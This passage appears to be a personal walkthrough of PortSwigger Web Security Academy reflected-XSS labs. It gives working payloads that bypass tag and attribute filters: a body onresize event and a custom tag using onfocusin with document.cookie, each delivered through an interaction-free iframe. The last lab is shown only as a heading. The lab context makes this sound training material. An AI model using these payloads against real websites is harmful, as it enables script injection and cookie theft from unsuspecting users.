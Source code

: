 Now we need to do the same for attributes:

`GET /?search=<body §§>` in Intruder where `§§` is our injection point.

`onresize` seems to be accepted and can be combined with `body` to create a payload:

```
<body onresize="alert(1)">
```

All there is left to do is deliver the payload to the victim. It has to be interaction-free to pass the lab.

The user will load an iframe containing our rXSS payload which we will then proceed to trigger the `onresize` event by changing its style.

`<iframe src={lab instance url}/?search={URL encoded payload} onload=this.style.width='100px'>`

**Solution**

```
<iframe src=https://ac1d1f931e6c53d0c0024e0200d10019.web-security-academy.net/?search=%3Cbody+onresize%3Dprint%28%29%3E onload=this.style.width='100px'>
```

### Lab 14 - Reflected XSS into HTML context with all tags blocked except custom ones

https://portswigger.net/web-security/cross-site-scripting/contexts/lab-html-context-with-all-standard-tags-blocked

Similar to previous lab except only **custom tags** are allowed.

https://portswigger.net/web-security/cross-site-scripting/cheat-sheet#onfocus

We can trigger a XSS with the **onfocus(in|out)** event handler.

Once again, we deliver it our payload to the victim with an **iframe** that will execute Javascript to focus on the `<div>` upon loading.

```
<iframe src={lab instance url}/?search={URL encoded payload}#xss>
```

Payload:

```
<xss id=xss tabindex=1 onfocusin=alert(document.cookie)></xss>
```

**Solution**

```
<iframe src=https://ac6b1f4c1ea25374c01b644300f600bc.web-security-academy.net/?search=<xss id=xss tabindex=1 onfocusin=alert(document.cookie)></xss>#xss>
```

### Lab 15 - Reflected XSS with event handlers and href attributes blocked

https://portswigger.net/web-security/cross-site-scripting/contexts/lab-event-handlers-and-href-attributes-blocked
